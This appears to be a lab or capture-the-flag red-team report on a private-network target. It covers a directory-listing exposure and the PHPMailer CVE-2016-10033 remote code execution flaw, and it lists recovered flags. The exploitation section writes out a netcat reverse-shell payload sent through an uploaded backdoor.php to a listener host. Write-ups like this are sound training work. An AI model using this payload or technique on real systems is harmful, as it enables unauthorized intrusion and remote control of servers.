 # **Red Team: Summary of Operations**

## TARGET 2

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results reveals the below services and OS details:

nmap -sV 192.168.1.115

![1](/Images/4/1.PNG)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information of vulnerabilities found in the previous step. These vulnerabilities are potential points of entry:

Vulnerability | Description | Impact
---|---|---
**CWE-548** Exposure of information through directory browsing | A directory listing is inappropriately exposed, yielding potentially sensitive information to attackers | Allowing an bad actor to obtain more information about your server could allow them to further their attack
**CVE-2016-10033** Remote Code Execution Vulnerability in PHPMailer | HPMailer allows extra parameters in the mail command and consequently executes arbitrary code | An attacker can execute commands on the web server remotely  allowing them to further compromise the target.

---

# Exploitation

The Red Team was able to penetrate Target 2 and retrieve the following confidential data:

**flag1.txt:**  `a2c1f66d28051bd3a5874b5b6r43e21`

- **CWE-548** Exposure of information through directory browsing
    
    Sensitive information was accessed without authorization through directory browsing. 
    
    The vendor directory has no restrictions and is accessible through the browser. It includes several sensitive files that leak information about the services in use, their versions, and the critical data `flag1{a2c1f66d28051bd3a5874b5b6r43e21}` in the PATH file.

    ---

    **Vendor Directory Index view from the browser** | PATH File: **Flag1** | **PHPMAILER version**
     ---|---|---
    ![1](/Images/4/6.PNG) | ![2](/Images/4/7.PNG) | ![4](/Images/4/9.PNG)    

---

**flag2.txt:**  `6a8ed560f0b5358ecf844108048eb337`

**flag3.txt:**  `a0f568aa9de277887f37730d71520d9b`

- **CVE-2016-10033** Remote Code Execution Vulnerability in PHPMailer

    The current version of PHPMailer in use (5.2.16) is vulnerable. It allows extra parameters in the mail command and consequently executes arbitrary code. Therefore, the exploited machine can establish stealthy communication with a Command and Control through a reverse shell that will bypass the inbound rules of a firewall.

    1. First, a customized script uploads a file to the vulnerable machine. The file allows the execution of NetCat in the exploited machine.

    2.  Second, a Command and Control is configured to listen using a NetCat command. 

    3. Finally, the exploited machine is instructed to call the Command and Control via a designed payload running in a browser. The payload has embedded a Netcat command to call the Command and Control machine.

        **Crafted payload:** `192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash`

        ![17](/Images/4/17.PNG)

        **Sensitive information was found in the "www" and "WordPress uploads" directory**    

        **flag2**

        ![19](/Images/4/19.PNG)

        **flag3**

        ![20](/Images/4/20.png)